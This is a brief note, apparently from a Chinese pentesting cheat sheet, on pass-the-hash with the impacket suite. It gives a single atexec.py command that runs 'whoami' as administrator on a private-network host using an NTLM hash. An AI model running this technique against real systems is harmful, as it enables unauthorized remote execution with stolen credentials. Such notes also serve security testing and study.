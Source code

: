 # impacket套件
hash传递:(PTH)

python atexec.py -hashes :(hash) ./administrator@192.168.3.32 "whoami"








